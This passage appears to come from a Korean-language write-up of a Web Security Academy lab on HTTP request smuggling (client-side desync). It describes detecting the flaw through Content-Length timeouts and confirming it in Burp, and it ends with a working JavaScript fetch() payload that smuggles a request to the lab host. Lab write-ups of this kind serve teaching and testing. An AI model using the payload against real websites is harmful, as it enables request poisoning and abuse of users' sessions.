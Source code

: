 2. 수동으로도 체크해본다. Detect단계에서 사용하는 테크닉을 사용해본다. 실제보다 CL값이 큰 요청을 보내보면, `/en` 엔드포인트는 타임아웃이 발생하지만 `/` 엔드포인트는 바로 응답이 온다. 

3. Confirm단계로 들어간다. Burp 로 확인해본다. 두번재 탭에서 404응답이 확인된다. 스머글링에 성공한 것이다.

![](/images/burp-academy-hrs-20-2.png)

![](/images/burp-academy-hrs-20-3.png)


4. 웹 브라우저로 확인해본다. 동일하게 404응답이 확인된다. 브라우저로도 재현이 가능한 것을 확인했다. 


```javascript
fetch('https://0abc00fc0374ea7b8303055000f900df.h1-web-security-academy.net', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include',
}).catch(() => {
        fetch('https://0abc00fc0374ea7b8303055000f900df.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```
